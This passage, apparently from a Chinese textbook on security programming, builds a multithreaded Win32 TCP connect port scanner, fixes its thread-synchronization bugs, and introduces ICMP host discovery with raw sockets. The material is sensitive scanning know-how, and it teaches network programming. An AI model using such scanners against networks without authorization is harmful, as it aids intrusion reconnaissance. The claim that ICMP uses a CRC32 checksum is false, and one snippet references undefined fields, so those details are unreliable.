进程和线程都是操作系统的概念。进程是应用程序执行的实体，每个进程是由私有的虚拟地址空间、代码、数据和其它各种系统资源组成，进程在运行过程中创建的资源随着进程的终止而被销毁，所使用的系统资源在进程终止时被释放或关闭。Windows 2000/XP 等操作系统中的每一个进程都有自己的虚拟地址空间，各个进程的资源、变量不能相互访问，这样可以很好地保护进程。线程是进程内部的一个执行单元。系统创建好进程后，实际上是启动执行了该进程的主线程，比如说 main 或 WinMain 函数就是主线程的入口，主线程终止了，进程也就随之终止。每一个进程至少有一个主线程，它无需由用户去主动创建，是由系统自动创建的。用户根据需要在应用程序中创建其它线程，多个线程并发地运行于同一个进程中，因此一个进程可以同时完成不同的任务。一个进程中的所有线程都在该进程的虚拟地址空间中，共同使用这些虚拟地址空间、全局变量和系统资源，所以线程间的通信非常方便。多线程可以实现并行处理，避免了繁琐任务长期占用 CPU 时间。要说明的一点是，目前大多数的计算机都是单处理器（CPU）的，为了运行所有这些线程，操作系统为每个独立线程安排一些 CPU 时间，操作系统以轮换方式向线程提供时间片，这就给人一种假象，好像这些线程都在同时运行。然后 CPU 的运算速度要比等待外设处理数据的速度快了许多倍，因此，使用多线程可以使 CPU 的效率得到提高。

“如果将多线程运用到扫描程序中来，那么我们可以调用 connect() 向 N 个目标同时发起连接，这样就可以大大提高我们扫描的工作效率。知道多线程的好处了吧，那么我们就想法开启一个线程吧？Win32 提供了一系列的 API 函数来完成线程的创建、挂起、恢复、终结以及通信等工作。不过呢，我们在正常使用中只会用到创建线程的函数 CreateThread()。原型：”

```cpp
HANDLE CreateThread(LPSECURITY_ATTRIBUTES lpThreadAttributes,
    DWORD dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    DWORD dwCreationFlags,
    LPDWORD lpThreadId)
```

该函数的作用就是创建一个新的线程，如果创建成功则返回线程的句柄，否则返回 NULL。

lpThreadAttributes 指向一个 SECURITY_ATTRIBUTES 结构的指针，该结构决定了线程的安全属性，一般置为 NULL。dwStackSize 指定了线程的堆栈深度，一般都设置为 0；lpStartAddress 表示新线程开始执行时代码所在函数的地址，即线程的起始地址。lpParameter 指定了线程执行时传送给线程的 32 位参数，即线程函数的参数。dwCreationFlags 控制线程创建的附加标志，可以取两种值，如果该参数为 0，线程在被创建后就会立即开始执行；如果该参数为 CREATE_SUSPENDED，则系统产生线程后，该线程处于挂起状态，并不马上执行，直至函数 ResumeThread 被调用；lpThreadId 参数返回所创建线程的 ID。

“那么我们如何创建一个线程呢？”

“创建线程需要两个步骤：首先我们需要定义一个线程函数，这个线程函数可以是全局的，也可以是类中静态成员函数，但不能为类中的成员函数，其原型为 `DWORD WINAPI Thread(LPVOID lpParam);`，然后在主线程里面使用 CreateThread() 函数来创建一个线程，CreateThread 的 lpStartAddress 参数就是我们自己定义的线程函数，而 lpParameter 就是传递给线程函数的参数，当 CreateThread() 返回成功后，线程就创建起来了，线程的运行轨迹就是线程函数的运行轨迹，当线程函数退出，线程也就退出了，那现在我们就可以使用 CreateThread() 函数来开启多个线程，让这些线程同时进行扫描任务，从而提高程序的效率。”

“自从有了多线程之后，人们的生活水平普遍提高了，脸也红润了，腿也不抽筋了……”

“……”

“呵呵，现在就把多线程的东西运用到我们的扫描程序中来，只要将原来的程序稍做修改就行了。第一步：定义线程函数 `DWORD WINAPI ConnectScanThread(LPVOID lpParam);`，其功能是根据主线程传递过来的 IP 地址和端口进行 connect 连接，并将结果显示到对话框的编辑框中。第二步：在 `void CConnectScanDlg::OnBnClickedOk()` 中循环调用 CreateThread() 来创建子线程。但我们还有两个问题需要解决。第一个问题：在 CreateThread 函数中，只能传递一个参数给子线程，如何将 IP 地址和端口等信息同时传递给子线程呢？第二个问题：子线程是全局的函数，它怎么能够操作对话框里面的元素呢？”

“啊，就是啊，这该怎么办呢？”小菜们说道。

“别老是怎么办，怎么办的！自己动手，丰衣足食。大家先讨论一下，想想办法吧。”

“嗯，我们可以声明全局变量的 IP 地址和端口，获得后对它们进行赋值，然后在子线程中就可以随意地操作了。”小菜 B 想了想说道。

“不错，这种方法在我们这种小程序中自然是没有问题的，但如果程序继续变大，比如要做成像 x-scan 一样的程序，里面可能有很多的线程，那么岂不是要 N 多的全局变量？这样程序的可读性和可维护性就会变得很差了。”

“哦，那我们声明一个结构吧。”小菜 A 说道。

```cpp
typedef struct tagTHREADPARAM
{
    DWORD dwIp;
    WORD dwPort;
    CConnectScanDlg *pDlg;
} THREADPARAM, *PTHREADPARAM;
```

“把这个结构的指针传递给子线程，子线程就可以获得全部三个参数的值了！”

“太对了！大家还是动了脑筋的，我们就用第二种方法吧。现在修改我们的代码，声明线程参数的结构。”

```cpp
typedef struct tagTHREADPARAM
{
    DWORD dwIp;            // 扫描 IP
    DWORD dwPort;          // 扫描端口
    CConnectScanDlg *pDlg; // 对话框指针
} THREADPARAM, *PTHREADPARAM;
```

“然后实现线程函数，现在消息响应函数中的扫描功能被移植到这里来了。”

```cpp
DWORD WINAPI ConnectScanThread(LPVOID lpParam)
{
    THREADPARAM Param = {0};
    MoveMemory(&Param, lpParam, sizeof(Param));
    SOCKADDR_IN sockAddr;
    SOCKET sock;
    // 创建面向连接的 socket
    sock = socket(PF_INET, SOCK_STREAM, 0);
    // 使用 TCP/IP 协议
    sockAddr.sin_family = AF_INET;
    // 指定连接的端口
    sockAddr.sin_port = htons(Param.dwPort);
    // 指定连接的 IP 地址
    sockAddr.sin_addr.S_un.S_addr = htonl(Param.dwIp);
    char *szIp = inet_ntoa(sockAddr.sin_addr);
    CString str;
    // 发起连接
    if (connect(sock, (LPSOCKADDR)&sockAddr, sizeof(sockAddr)) == 0)
    {
        // 连接成功
        CTime tm = CTime::GetCurrentTime();
        str.Format("%s 端口 %d 连接成功 时间:%d:%d:%d", szIp, Param.dwPort,
            tm.GetHour(), tm.GetMinute(), tm.GetSecond());
    }
    else
    {
        // 连接失败
        CTime tm = CTime::GetCurrentTime();
        str.Format("%s 端口 %d 连接失败 时间:%d:%d:%d", szIp, Param.dwPort,
            tm.GetHour(), tm.GetMinute(), tm.GetSecond());
    }
    // 第三步：添加回显信息
    Param.pDlg->m_BackMsgList.InsertItem(0, str);
    closesocket(sock);
    return 0;
}
```

“当然也要修改消息响应函数 OnBnClickedOk() 了，在里面循环创建扫描子线程。”

```cpp
void CConnectScanDlg::OnBnClickedOk()
{
    // 第一步 获取 IP 和端口
    UpdateData(TRUE);
    DWORD dwStartIp;
    DWORD dwEndIp;
    m_IpStart.GetAddress(dwStartIp);
    m_IpEnd.GetAddress(dwEndIp);
    CString str;

    /* 定义线程参数变量 */
    THREADPARAM Param = {0};
    /* 第二步：循环创建线程 */
    for (DWORD dwIp = dwStartIp; dwIp <= dwEndIp; dwIp++)
    {
        for (DWORD dwPort = m_uStartPort; dwPort <= m_uEndPort; dwPort++)
        {
            Param.dwIp = dwIp;
            Param.dwPort = dwPort;
            Param.pDlg = this;
            CreateThread(NULL, 0, ConnectScanThread, &Param, 0, NULL);
            Sleep(1000);
        }
    }
}
```

图 3-13

“成功转型，顺利地由魔兽玩家转型为星际玩家。我们来看看是不是速度真的变快了。填上 IP 地址和端口，点击‘确定’开始扫描。”

“哇，速度真快呀，一下子就出来这么多的结果，如图 3-13，看来我们的多线程真的发挥作用了，而且窗口还可以随时地进行拖动，不会卡在那里不动了，多线程……Only you……Only you！”

“别乐了，怎么有点不对劲呢？为什么返回的只有两个 IP 地址的扫描结果，而且有大量的重复？”小菜 A 突然发现了问题。

“是啊！肯定有问题啊！”

“哈哈，发现问题了吗？发现问题了是件好事。”老师说道。

“刚才尝到一点甜头，想不到这么快就没有了，究竟是哪里出现了问题呢？”

“这个问题就是线程没有进行同步而造成。”老师说道。

“为什么会不同步呢？”老师解释道，“线程是系统进行调度的最小单元，当一个线程运行的时间片完了后，它就会被挂起，然后 CPU 转去执行其它的线程，直到等待到下一个时间片的到来，该线程才被继续恢复执行。我们来分析一下上面的程序究竟是哪里可能导致出现不同步的现象。为了讲解方便，我们把刚才程序的重要步骤分解成下面几个步骤来模拟刚才线程执行的流程。”

- 1. 主线程：改变 IP 地址、端口
- 2. 主线程：开启子线程 1
- 3. 子线程 1：读取 IP 地址、端口
- 4. 主线程：改变 IP 地址、端口
- 5. 主线程：开启子线程 2
- 6. 子线程 2：读取 IP 地址、端口
- 7. 主线程：改变 IP 地址、端口
- 8. 主线程：开启子线程 3
- 9. 子线程 3：读取 IP 地址、端口

“如果程序按照这个流程一直执行下去，那么程序肯定不会出错，也是我们所希望的结果，然而在多线程的世界里，事情可能真的不那么尽如人意。当主线程开启子线程后，其时间片并没有用完，那么它将继续执行，因此它再次改变 IP 地址和端口并开启下一个线程，现在的情况就可能变成了这样。”

- 1. 主线程：改变 IP 地址、端口
- 2. 主线程：开启子线程 1
- 3. 主线程：改变 IP 地址、端口
- 4. 主线程：开启子线程 2
- 5. 主线程：改变 IP 地址、端口
- 6. 主线程：开启子线程 3
- 7. 子线程 1：读取 IP 地址、端口
- 8. 子线程 2：读取 IP 地址、端口
- 9. 子线程 3：读取 IP 地址、端口

“主线程连续改变了三次 IP 地址和端口，子线程才得到机会读取 IP 地址和端口，并且三个子线程读取”的IP地址和端口都是一样的。”

“怪不得上面的扫描结果就只有两个IP地址，原来几个子线程获得的地址和端口都是一样的啊！”小菜们明白了。

“因此我们急需一种保护机制来保证我们正常流程的进行，用它来保证主线程在改变IP地址和端口前子线程已经把参数拷贝完成了，这就是线程同步的问题。Windows提供了几个方法来进行线程同步，主要有临界区、事件、信号量、互斥量等，以下是这几个同步方法的简单描述。”

- 1. 临界区：通过对多线程的串行化来访问公共资源或一段代码，速度快，适合控制数据访问。
- 2. 互斥量：为协调共同对一个共享资源的单独访问而设计的。
- 3. 信号量：为控制一个具有有限数量用户的资源而设计。
- 4. 事件：用来通知线程有一些事件已发生，从而启动后续任务的开始。

“首先来看看临界区（Critical Section），临界区是保证任意时刻只允许一个线程对共享资源进行访问的一种简单的方法和机制，因此使用这种方法时，在其中一个线程进入到了临界区时，其它线程试图访问该临界区就会被挂起，直到占用该临界区的线程离开，而其离开时，等待的线程也只能有一个进入该临界区，因此可以方便地使用来进行多线程的同步。临界区的操作函数如下。”

```c
EnterCriticalSection
原型：void EnterCriticalSection(LPCRITICAL_SECTION lpCriticalSection);
```

其功能是试图进入临界区。lpCriticalSection为指向CRITICAL_SECTION的指针，它就是保护资源同步的卫士。

```c
LeaveCriticalSection
原型：void LeaveCriticalSection(LPCRITICAL_SECTION lpCriticalSection);
```

进入临界区后必须调用该函数离开临界区，不然会造成死锁。lpCriticalSection为指向CRITICAL_SECTION的指针。

“使用这两个函数就可以方便地使用临界区来保护我们的共享资源了，不过为了使用临界区，还必须在程序开始处调用InitializeCriticalSection或者InitializeCriticalSectionAndSpinCount来初始化临界区对象。临界区使用方便而且速度快，是进行同一进程共享资源同步的首选。接下来介绍互斥量（Mutex）。互斥量跟临界区很相似，只有拥有互斥对象的线程才具有访问资源的权限。由于互斥对象只有一个，因此就决定了任何情况下此共享资源都不会同时被多个线程所访问。当前占据资源的线程在任务处理完后应将拥有的互斥对象交出，以便其它线程在获得后得以访问资源。互斥量比临界区复杂，因为使用互斥不仅能够在同一应用程序不同线程中实现资源的安全共享，而且还可以在不同应用程序的线程之间实现对资源的安全共享。然而鉴于我们程序中应用到互斥量的机会小，因此就简单介绍一下使用互斥量的几个函数的功能。”

- CreateMutex()：创建一个互斥量
- OpenMutex()：打开一个互斥量
- ReleaseMutex()：释放互斥量

“再下来为大家介绍与前面两种截然不同的同步方法：‘信号量’。信号量对线程的同步方式与前面几种方法不同，信号量允许多个线程同时使用共享资源，这与操作系统中的PV操作相同。它指出了同时访问共享资源的线程最大数目。它允许多个线程在同一时刻访问同一资源，但是需要限制在同一时刻访问此资源的最大线程数目。在使用CreateSemaphore()创建信号量时需要同时指出允许的最大资源计数和当前可用资源计数。一般是将当前可用资源计数设置为最大资源计数，每增加一个线程对共享资源的访问，当前可用资源计数就会减1，只要当前可用资源计数大于0，就可以发出信号量信号。但是当前可用计数减小到0时，则说明当前占用资源的线程数已经达到了所允许的最大数目，不能再允许其它线程的进入，此时的信号量信号将无法发出。线程在处理完共享资源后，应在离开的同时通过ReleaseSemaphore()函数将当前可用资源计数加1。在任何时候当前可用资源计数绝不可能大于最大资源计数。”

> **小知识：PV操作及信号量原型**

PV操作及信号量的概念都是由荷兰科学家E. W. Dijkstra提出的。信号量S是一个整数，S大于等于零时代表可供并发进程使用的资源实体数；但S小于零时则表示正在等待使用共享资源的进程数。

P操作：申请资源；

- 1. S减1；
- 2. 若S减1后仍大于等于零，则进程继续执行；
- 3. 若S减1后小于零，则该进程被阻塞后进入与该信号相对应的队列中，然后转入进程调度。

V操作：释放资源；

- 1. S加1；
- 2. 若相加结果大于零，则进程继续执行；
- 3. 若相加结果小于等于零，则从该信号的等待队列中唤醒一个等待进程，然后再返回原进程继续执行或转入进程调度。

# 第三章 端口与漏洞扫描编程

> “那么我们如何来操作信号量呢？Windows为我们提供了下面几个API。”

```c
CreateSemaphore

原型：
HANDLE CreateSemaphore(
    LPSECURITY_ATTRIBUTES lpSemaphoreAttributes,
    LONG lInitialCount,
    LONG lMaximumCount,
    LPCTSTR lpName
);
```

其功能是创建信号量对象。lpSemaphoreAttributes：创建的对象的安全属性，我们调用时一般为NULL，也就是继承创建者的安全属性。lInitialCount：初始计数；lMaximumCount：最大计数，也就是访问共享资源的最大线程数；lpName：创建的对象的名称，如果为该对象取了名字，那么就可以跨进程访问了。

```c
OpenSemaphore

原型：
HANDLE OpenSemaphore(
    DWORD dwDesiredAccess,
    BOOL bInheritHandle,
    LPCTSTR lpName
);
```

其功能是根据lpName来打开已经创建的信号量对象，并返回该对象的句柄。dwDesiredAccess：访问的权限。bInheritHandle：打开的句柄是否被子进程继承，如果为TRUE，那么可以被继承。lpName：打开的信号量对象的名称。

```c
ReleaseSemaphore

原型：
BOOL ReleaseSemaphore(
    HANDLE hSemaphore,
    LONG lReleaseCount,
    LPLONG lpPreviousCount
);
```

其功能是释放信号量，释放的计数由lReleaseCount指定。hSemaphore：信号量的句柄。lReleaseCount：释放的计数个数。lpPreviousCount：释放前的计数个数。

```c
WaitForSingleObject

原型：
DWORD WaitForSingleObject(
    HANDLE hHandle,
    DWORD dwMilliseconds
);
```

等待对象变为有信号，可以等待的对象有事件、信号量、互斥量、进程对象、线程对象等等。该函数会一直阻塞，直到等待的事件变成有信号状态或者超时。hHandle：等待的事件句柄。dwMilliseconds：超时的时间，INFINITE表示永远等待。

“最后再来介绍一个运用最广泛的同步方法：事件。事件不仅可以用来保护共享的资源，还可以用来通知动作的行为，比如开始、结束等等。同样，Windows也提供了API来对事件进行创建、打开、重置等行为，下面会一一介绍。”

```c
CreateEvent

原型：
HANDLE CreateEvent(
    LPSECURITY_ATTRIBUTES lpEventAttributes,
    BOOL bManualReset,
    BOOL bInitialState,
    LPCTSTR lpName
);
```

其功能为创建一个事件。lpEventAttributes：创建的事件的安全属性。bManualReset：如果为TRUE，则该事件的重置必须由我们自己调用ResetEvent来完成；如果为FALSE，那么为自动重置，也就是在线程利用WaitForSingleObject等待事件成功后，该事件会自动从有信号变为无信号。bInitialState：创建好事件后，该事件的初始状态。lpName：为该事件命名，其它线程可以使用该名字来打开该事件。

```c
OpenEvent
原型：
HANDLE OpenEvent(
    DWORD dwDesiredAccess,
    BOOL bInheritHandle,
    LPCTSTR lpName
);
```

其功能是根据lpName来打开已经创建了的事件对象，并返回该对象的句柄。dwDesiredAccess：访问的权限。bInheritHandle：打开的句柄是否被子进程继承，如果为TRUE，那么可以被继承。lpName：打开的事件对象的名称。

```c
SetEvent
原型：
BOOL SetEvent(
    HANDLE hEvent
);
```

其功能是将事件变为有信号状态。hEvent：设置的目标事件。

```c
ResetEvent
原型：
BOOL ResetEvent(
    HANDLE hEvent
);
```

其功能是将事件变为无信号状态。hEvent：重置的目标事件。

```c
WaitForMultipleObjects
原型：
DWORD WaitForMultipleObjects(
    DWORD nCount,
    const HANDLE* lpHandles,
    BOOL bWaitAll,
    DWORD dwMilliseconds
);
```

其功能是等待多个事件，如果bWaitAll为TRUE，那么该函数会一直阻塞到所有的事件都变成有信号状态。nCount：等待的事件个数。lpHandles：事件组成的数组的首地址。bWaitAll：是否等待所有的事件都变成有信号。dwMilliseconds：等待超时时间。

> 讲了这么多，我们还是选用一种用到我们扫描程序中来解决实际问题吧。选用同步方法的标准主要是看我们的功能实现，在这个扫描程序中我们需要的功能就是让主线程等待子线程拷贝数据，因此我们选用事件来进行同步。我们在线程参数结构中新增加一个HANDLE hCopyOkEvent用来传递事件句柄。这样线程参数结构就变为了：

```c
typedef struct tagTHREADPARAM
{
    DWORD dwIp;                // 扫描的IP
    DWORD dwPort;              // 扫描的端口
    CConnectScanDlg* pDlg;     // 对话框指针
    HANDLE hCopyOkEvent;       // 同步事件句柄
} THREADPARAM, *PTHREADPARAM;
```

> 在主线程中调用CreateEvent创建一个事件，并保存在进程参数结构中，并在创建完线程后等待子线程调用SetEvent将事件设置为有信号状态。修改后的OnBnClickedOk()代码如下：

```c
void CConnectScanDlg::OnBnClickedOk()
{
    // 第一步 获取IP和端口
    UpdateData(TRUE);
    DWORD dwStartIp;
    DWORD dwEndIp;
    m_ipStart.GetAddress(dwStartIp);
    m_ipEnd.GetAddress(dwEndIp);
    CString str;
    // 其它变量定义略
    THREADPARAM Param = {0};
    HANDLE hCopyOKEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
    Param.hCopyOKEvent = hCopyOKEvent;

    // 第二步 循环connect
    for (DWORD dwIp = dwStartIp; dwIp <= dwEndIp; dwIp++)
    {
        for (DWORD dwPort = m_uStartPort; dwPort <= m_uEndPort; dwPort++)
        {
            Param.dwIp = dwIp;
            Param.dwPort = dwPort;
            Param.pDlg = this;

            CreateThread(NULL, 0, ConnectScanThread, &Param, 0, NULL);
            WaitForSingleObject(hCopyOKEvent, INFINITE);
            ResetEvent(hCopyOKEvent);
        }
    }
}
```

图3-14

图3-15

> “子线程函数的修改极其简单，在MoveMemory之后调用`SetEvent(Param.hCopyOKEvent);`，告诉主线程数据拷贝已经成功。下面为修改的子线程的开始部分。”

```c
DWORD WINAPI ConnectScanThread(LPVOID lpParam)
{
    THREADPARAM Param = {0};
    MoveMemory(&Param, lpParam, sizeof(Param));
    SetEvent(Param.hCopyOKEvent);
    // 其他均不变
}
```

> “好了，再次升级完毕，编译运行我们修改过的程序，并执行扫描，如图3-14。大家仔细看看，对每个IP都进行了正确的扫描，没有丢掉IP的现象了。”

“成功了！”小菜们一片欢呼。

“基本的功能的确是实现了，但还存在一些不完善的地方。”老师打望了一下程序，说道。

> “我们的扫描工具在发现一个目标之后就会开启一个线程来进行扫描，如果我们要扫描的IP地址实在太多了，比如一个B段的所有IP地址，并且有多个端口，会出现什么情况呢，如图3-15。”

> “大家可以计算一下，65535个IP × 65535个端口 = 4294836225个目标，系统真的会让我们不断地开启线程吗？即使系统同意，那么真的有这么多的资源来承受如此多的线程吗？”

> “答案当然是否定的。”老师接着说道，“因此我们需要对线程的创建数进行限制，这就需要一个计数来管理当前存活的线程数是多少，并在计数大于规定的阈值时进行等待。”

“前面不是提到过信号量吗？可以使用它吗？”

> “完全正确，信号量指出了同时访问共享资源的线程最大数目，它允许多个线程在同一时刻访问同一资源，但是需要限制在同一时刻可以访问的最大线程数目。这个不是我们正想要的吗？修改思路为首先在主线程中创建信号量并传递给子线程，而子线程在创建的时候查看是否已经达到阈值，而子线程在扫描结束前修改信号量计数。我们再在线程参数结构中添加一个成员。”

```c
typedef struct tagTHREADPARAM
{
    DWORD dwIp;              // 扫描的IP
    DWORD dwPort;            // 扫描端口
    CConnectScanDlg* pDlg;   // 对话框指针
    HANDLE hCopyOKEvent;     // 同步事件句柄
    HANDLE hSemaphore;       // 控制线程数的信号量
} THREADPARAM, *PTHREADPARAM;
```

“然后在OnBnClickedOk()中创建信号量，并在线程创建前调用WaitForSingleObject来限制创建的线程数。”

```c
for (DWORD dwIp = dwStartIp; dwIp <= dwEndIp; dwIp++)
{
    for (DWORD dwPort = m_uStartPort; dwPort <= m_uEndPort; dwPort++)
    {
        WaitForSingleObject(hSemaphore, INFINITE);
        CreateThread(NULL, 0, ConnectScanThread, &Param, 0, NULL);
    }
}
```

“这里又出现了一个问题，OnBnClickedOk()在创建完所有的线程前是不会返回的，那么界面又会卡住了。因此这里我们可以再创建一个线程的管理线程MainThread，让它来代替主线程进行线程的管理，这样OnBnClickedOk()就可以在第一时间返回，界面就不会卡了。那么程序的流程就稍有变化，我们来整理一下。

OnBnClickedOk() -> 创建管理线程MainThread -> 返回 -> 界面不会卡了  
MainThread() -> 循环创建子线程ConnectScanThread() -> 返回  
ConnectScanThread() -> 连接IP的端口 -> 添加回显信息

因此我们需要将消息响应函数稍作修改。”

```c
void CConnectScanDlg::OnBnClickedOk()
{
    // 获取IP和端口
    UpdateData(TRUE);
    DWORD dwStartIp;
    DWORD dwEndIp;
    m_IpStart.GetAddress(dwStartIp);
    m_IpEnd.GetAddress(dwEndIp);
    // 定义线程参数变量
    MAINTHREADPARAM Param = {0};
    HANDLE hCopyOkEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
    Param.hCopyOkEvent = hCopyOkEvent;
    Param.dwStartIp = dwStartIp;
    Param.dwEndIp = dwEndIp;
    Param.dwStartPort = m_uStartPort;
    Param.dwEndPort = m_uEndPort;
    Param.pDlg = this;
    // 开启主线程
    CreateThread(NULL, 0, MainThread, &Param, 0, NULL);
    WaitForSingleObject(hCopyOkEvent, INFINITE);
    ResetEvent(hCopyOkEvent);
}
```

“它只是把管理线程MainThread需要的参数填充好，其中使用的MAINTHREADPARAM的结构定义如下。”

```c
typedef struct tagMAINTHREADPARAM
{
    DWORD dwStartIp;        // 扫描的开始IP
    DWORD dwEndIp;          // 扫描的结束IP
    DWORD dwStartPort;      // 扫描的开始端口
    DWORD dwEndPort;        // 扫描的结束端口
    CConnectScanDlg* pDlg;  // 对话框指针
    HANDLE hCopyOkEvent;    // 同步事件句柄
} MAINTHREADPARAM, *PMAINTHREADPARAM;
```

“然后调用CreateThread将管理线程创建后就返回，因此就可以避免界面卡住的现象了。在ConnectScanDlg.cpp中添加一个函数MainThread，其实现如下。”

```c
DWORD WINAPI MainThread(LPVOID lpParam)
{
    MAINTHREADPARAM Param = {0};
    MoveMemory(&Param, lpParam, sizeof(Param));
    SetEvent(Param.hCopyOkEvent);
    // 定义线程参数
    THREADPARAM ThreadParam = {0};
    HANDLE hCopyOkEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
    ThreadParam.hCopyOkEvent = hCopyOkEvent;
    HANDLE hSemaphore = CreateSemaphore(NULL, MAX_THREAD, MAX_THREAD, NULL);
    ThreadParam.hSemaphore = hSemaphore;
    // 循环connect
    for (DWORD dwIp = Param.dwStartIp; dwIp <= Param.dwEndIp; dwIp++)
    {
```

### 3.1.3 主机存活性探测

```cpp
for (DWORD dwPort = Param.dwStartPort; dwPort <= Param.dwEndPort; dwPort++)
{
    // 检测信号量
    DWORD dwWaitRes = WaitForSingleObject(hSemaphore, 200);
    if (dwWaitRes == WAIT_OBJECT_0)
    {
        ThreadParam.dwh = dwh;
        ThreadParam.dwPort = dwPort;
        ThreadParam.pDB = Param.pDB;
        CreateThread(NULL, 0, ConnectScanThread, &ThreadParam, 0, NULL);

        WaitForSingleObject(hCopyOkEvent, INFINITE);
        ResetEvent(hCopyOkEvent);
    }
    else if (dwWaitRes == WAIT_TIMEOUT)
    {
        // 线程数已经用完
        dwPort--;
        continue;
    }
}

return 0;
```

而 ConnectScanThread 只需在函数返回前加一句 `ReleaseSemaphore(Param.hSemaphore, 1, NULL);`，将信号量释放一个计数，其它的地方都不用改变。我们再来执行扫描任务，看看效果如何，如图 3-16。

嗯，界面可以自由地拖动，我们是否真的将线程限制在了 256 个呢？打开“任务管理器”来观察 ConnectScan.exe 的线程数，如图 3-17。

ConnectScan.exe 的线程数一直稳定在 258，减去主线程和管理线程，刚好是 256，呵呵，这说明我们的信号量已经运作成功，而且效果良好哦。

好了，虽然我们可以用多线程来进行 connect 扫描，提高了效率，但仍不能满足膨胀率如此高的要求，oh，sorry，是不能满足大范围扫描的要求。我们来假设一种情况，使用 TCP Connect 扫描程序进行扫描的时候，如果遇到该主机没有开机，而我们又扫描了 1000 个端口，会出现什么现象呢？

一个端口扫描需要 21 秒，即使使用 256 个线程也需要 1000/256*21=84 秒。小菜们的算术都是过硬的哦。

再想想，如果要对多个主机多个端口进行扫描，而其中又有大量的主机没有开机，又会是一个什么样的数字呢？

对啊！这是严重的问题啊。如果能预先知道扫描的主机中哪些是在线的，哪些是不在线的就好了。我们对不在线的主机不再做端口扫描，就可以节约大量的时间了。小菜们说道。

呵呵，这也是这一节我们将要解决的问题。那么如何来探测主机的存活性呢？比如我们想要知道某服务器是否开启，我们怎么办呢？

“ping 一下不就知道了吗？”小菜平时都是训练有素。

是的，ping 其实就是利用 ICMP 来进行主机存活探测的一个例子。不仅如此，UDP、TCP、ARP 都可以用来探测主机的存活。然而考虑到代表性，我们介绍 ICMP 和 TCP 主机探测方法，而这两种方法也足以承担起主机存活性探测的重任。同时需要注意的是，在当前个人防火墙流行的情况下，主机存活性探测肯定会出现一定的漏报情况，但是能换来大量的时间节约，想必在多数情况下还是值得的。那么我们就先从 ICMP 探测开始入手吧。

#### 一、ICMP 探测主机存活

ICMP 全称为 Internet Control Message Protocol，它工作在 ISO 模型的网络层，在网络中的主要作用有主机探测、路由维护、路由选择和流量控制。在这里我们当然使用它的主机探测功能了。ICMP 的头部结构如下。

```cpp
// ICMP Header
struct ICMPHEADER
{
    unsigned char i_type;
    unsigned char i_code;
    unsigned short i_cksum;
    unsigned short i_id;
    unsigned short i_seq;
    unsigned long i_timestamp;
    unsigned char i_data[28];
};
```

注意第一个字段 i_type，它代表了 ICMP 的类型。在主机探测中，我们主要使用两种类型的数据包：ICMP echo 和 ICMP echo reply。根据字面上的意思就可以知道，这两个是一对。按照协议的规定，当计算机收到 ICMP echo 数据包后，应该回应一个 ICMP echo reply 数据包。当 i_type 为 8 时，就是一个 ICMP echo 数据包；当 i_type 为 0 时，就是 ICMP echo reply 数据包。因此，这个也构成了 ICMP 实现主机探测的理论基础。ping 程序也是利用这样的机制工作的，但是 ping 程序用来探测大量的主机存活可不适用，因此我们需要编程来实现。但是，我们在以前的网络编程中没有介绍过发送 ICMP 类型的数据包的方法。既然如此，那么我们就欢迎嘉宾“原始套接字”隆重出场。

> **小知识：原始套接字**
>
> 大家好，我是原始套接字。为什么叫原始套接字呢？既不好听，又不体面，我也有这样的疑问。我哪里比 TCP、UDP 长得差了，凭什么它们的知名度比我高；但是妈妈说，那是因为你太强壮了，太强大自然就没有人知晓。妈妈还说，原始就是一种美；妈妈还说……

到底有完没完啊？小菜们开始严重抗议了。“兄弟，找重点说吧，你有什么功能啊。”

我的功能可多了，可以发送和接收 IP 层上的原始数据包，如 ICMP、TCP、UDP 等等，只要是 IP 层以上的数据包。不但如此，我还可以进行嗅探工作，但是却不能发送和接收 ARP 数据包。

啊，还能嗅探啊？果然够强大。大家立刻对原始套接字另眼相看。“那还等什么，赶紧让我们见识一下吧（注意：在 WinXP SP2 和 Win2003 SP1 以上的系统版本中，已经限制了使用原始套接字来发送 TCP、UDP 数据包）。”

## 1．使用原始套接字发送 ICMP 报文

现在就让我们来看看如何使用原始套接字发送 ICMP echo request 报文。使用原始套接字发送 ICMP 报文的过程分为三步：第一步，建立原始套接字；第二步，构造需要发送的数据包；第三步，发送数据包。

看样子还是挺简单的嘛，没有想象中的那么复杂。小菜说道。

本来就不复杂呀，只不过面生而已，不过一回生，二回就熟了。我们再进行具体研究分析一下每一个步骤。

- **1. 建立原始套接字**

  `socket(AF_INET, SOCK_RAW, IPPROTO_ICMP);`，建立原始套接字我们仍然使用 `socket()` 函数，但是第二个参数类型改为 `SOCK_RAW`，表示我们建立的是原始套接字，`IPPROTO_ICMP` 代表原始套接字的类型为 ICMP。

- **2. 按照 ICMP 协议格式填充数据包**

  使用原始套接字的话，系统不会为我们构造 ICMP 头部数据，因此我们必须自己构造 ICMP 头部、数据并且进行校验和计算。

  首先定义 ICMP 包头的数据结构：

```cpp
// 声明 ICMP 头部变量，ICMPHEADER 在前面已经给出定义
ICMPHEADER icmpHeader;
icmpHeader.i_type = 8;        // 8 为 ICMP ECHO
icmpHeader.i_code = 0;
icmpHeader.i_cksum = 0x0;
icmpHeader.i_id = (unsigned short)GetCurrentProcessId();
icmpHeader.i_seq = 0;
icmpHeader.i_timestamp = (unsigned long)GetTickCount();
// 填充测试数据
memset(&icmpHeader.i_data, 'a', 26);
unsigned short* buf = (unsigned short*)&icmpHeader;
// 计算校验和
[...]
// 将校验和也填充在 ICMP 头部中，读者见后面完整代码
icmpHeader.i_cksum = answer;
```

需要注意的是，因为我们需要发送 ICMP ECHO Request 数据包，因此 `i_type` 必须为 8。其次是 `i_cksum`，ICMP 数据校验使用标准的 CRC32 校验机制；因此校验和必须正确，否则对方在收到校验和不正确的时候会丢弃该包。其它的字段都可以随意填写。

- **3. 发送数据包**

  发送数据包就简单了，使用 `sendto()` 函数就可以搞定。给出一段发送 ICMP 数据包的代码。

```c
// 第一步，建立原始套接字
socket(AF_INET, SOCK_RAW, IPPROTO_ICMP);
// 目标 IP 地址
sockaddr_in addr;
// 声明 ICMP 数据包
ICMPHEADER icmpheader;
// 第二步，填充 ICMP 数据包
[...]
// 第三步，将 ICMP 数据包发送到目标 IP 地址
sendto(sock, (char *)&icmpheader, size, 0,
       (struct sockaddr *)&addr, sizeof(addr));
```

## 2．ICMP 报文接收——嗅探技术初接触

